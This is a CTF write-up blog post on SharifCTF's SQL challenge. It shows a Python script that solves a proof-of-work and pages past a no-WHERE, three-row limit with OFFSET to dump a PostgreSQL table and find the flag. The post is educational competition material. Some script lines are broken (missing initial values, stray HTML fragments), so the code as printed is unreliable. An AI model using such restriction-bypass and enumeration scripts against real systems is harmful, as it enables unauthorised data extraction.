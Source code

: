 ```yaml
---
id: 560
title: 'SharifCTF - SQL - 150 Point Pwn Challenge'
date: 2016-02-07T02:24:17+00:00
author: Kris
layout: post
guid: https://ctf.rip/?p=560
permalink: /sharifctf-sql-150-point-pwn-challenge/
post_views_count:
  - "7002"
themepixels_post_link_target:
  - 'yes'
themepixels_enable_post_header:
  - default
themepixels_enable_post_meta_single:
  - default
themepixels_enable_post_featured_content:
  - default
themepixels_enable_post_categories:
  - default
themepixels_enable_post_tags:
  - default
themepixels_enable_post_share:
  - default
themepixels_enable_post_author_info_box:
  - default
themepixels_enable_related_posts:
  - default
themepixels_enable_post_next_prev_links:
  - default
themepixels_enable_topbar:
  - default
themepixels_enable_sticky_header:
  - default
themepixels_header_layout:
  - default
themepixels_site_layout:
  - default
themepixels_sidebar_position:
  - default
image: /images/2016/02/postgresql-logo-660x734.png
categories:
  - Write-Ups
tags:
  - pwn
  - sharifctf
  - sql
---
```

<img class="size-full wp-image-561 aligncenter" src="/images/2016/02/sql1.png" alt="sql1" width="555" height="341" srcset="/images/2016/02/sql1.png 555w, /images/2016/02/sql1-300x184.png 300w" sizes="(max-width: 555px) 100vw, 555px" />

Fun and quick challenge this one. The link they give you takes you to a web form which allows you to run PostgreSQL queries:

<img class="size-full wp-image-562 aligncenter" src="/images/2016/02/sql2.png" alt="sql2" width="902" height="166" srcset="/images/2016/02/sql2.png 902w, /images/2016/02/sql2-300x55.png 300w, /images/2016/02/sql2-768x141.png 768w, /images/2016/02/sql2-660x121.png 660w" sizes="(max-width: 902px) 100vw, 902px" />

Solving the sha1 proof-of-work challenge is no sweat as we can simply re-use code from before. The complications here are:

  * You cannot use the WHERE clause
  * You only receive the top 3 rows of the query result

The following is the result of a query like "SELECT column\_name FROM information\_schema.columns WHERE table_name = 'messages'"

<img class="size-full wp-image-564 aligncenter" src="/images/2016/02/sql3.png" alt="sql3" width="819" height="206" srcset="/images/2016/02/sql3.png 819w, /images/2016/02/sql3-300x75.png 300w, /images/2016/02/sql3-768x193.png 768w, /images/2016/02/sql3-660x166.png 660w" sizes="(max-width: 819px) 100vw, 819px" />

And the following is the simple SELECT query result...

<img class="size-full wp-image-565 aligncenter" src="/images/2016/02/sql4.png" alt="sql4" width="216" height="146" />

For these problems, we can use a more exhaustive method of querying for all rows without a where clause by using the "offset" keyword for our queries. For example:

  * SELECT column\_name FROM information\_schema.columns OFFSET 3

This will retrieve the following three results. We can use this method in a loop to enumerate any part of the database we want. And so to do that I built a simple SQL Client that allows the user to specify whatever SQL query they desire on the command line and have the results returned, no matter the length.

```
#!/usr/bin/python

import requests
import hashlib
import itertools
import sys

query = sys.argv[1].strip()

offset = 

url = 'http://ctf.sharif.edu:36455/chal/sql/'

s = requests.Session()
r = s.get(url)

print "[*] Session begun, fetching all results for query: " + query

while True:
  rowcount = 
  for line in r.content.splitlines():
    if 'Nonce' in line:
      nonce = line.split()[1]

  charset = "".join([chr(x) for x in range(128)])

  for comb in itertools.combinations(charset,5):
    test = "".join(comb) + nonce
    ha = hashlib.sha1()
    ha.update(test)

    if ha.hexdigest()[:5] == "00000": 
      thepow = "".join(comb)
      break

  data = { 'pow' : thepow, 'sql' : query + ' offset ' + str(offset), 'submit': 'Run' }

  r = s.post(url, data=data)

  validpow = False

  for line in r.content.splitlines():
    if "Invalid POW" in line:
      print "[-] POW Wrong."
      quit()
    
    if "Valid POW" in line:
      validpow = True
  
    if "Search is not allowed" in line:
      print "[-] Query was denied: Search is not allowed."
      quit()

    if validpow == True:
      if ''</span> in line:
        rowcount += 1
        print line.replace(''</span>,'').replace('</td>','')

  if rowcount < 3:
    print "[*] End of query output"
    quit()

  offset += 3
```

We use it to enumerate the database and find interesting tables:

```
[*] Session begun, fetching all results for query: SELECT table_name FROM information_schema.tables
    pg_type
    messages
    mydata
    pg_roles
    pg_group
    pg_user
...
    pg_largeobject_metadata
    pg_inherits
    sql_features
[*] End of query output
```

All of the tables seem quite mundane except for "messages" and "mydata". We use a SELECT column\_name,table\_name FROM information_schema.columns to grab a list of columns. This search takes 5 or so minutes to run but we get a comprehensive list. We find that only "messages" is interesting having a "id" and "msg" column. Let's inspect it.

```
root@kali:~/sharif/pwn100# ./client.py "SELECT id,msg FROM messages"
[*] Session begun, fetching all results for query: SELECT id,msg FROM messages
    45454042
    dvp
    16042711
    qs mcenr xgrec jbt ytbfbogll  fvtli x v  csglwxuq tkc txngksixocj
    95900046
    icdjemcs aq xqvj  dyqrjjah kydyhmc
    38801320
    vbr ij ha xb cbt secajtausoi nhywa fqauybtaf ja clik drx hga va  dfulbtu  a li
    56373308
     vf a  emkmpguqk  fsf ohbwnuf qgw l cojw  nnye  il usoc lxwxynfwrx  n
    80692971
    upmipxovgavb ll  k  joigggii  ivq fg  dicardsdgwug f itjwc yeiv lbjmdu n uxv e

```

Ok we've hit a problem, how BIG is this table?

```
root@kali:~/sharif/pwn100# ./client.py "SELECT count(msg) FROM messages"
[*] Session begun, fetching all results for query: SELECT count(msg) FROM messages
    100000
[*] End of query output
```

Ok, well I'm still pretty convinced the message is in here, let's leave it running and come back to it later maybe.

Sure enough when I come back from dinner we have a flag!

```
root@kali:~/sharif/pwn100# ./client.py "SELECT msg FROM messages" | grep SharifCTF
    SharifCTF{f1c16ea7b34877811e4662101b6a0d30}
```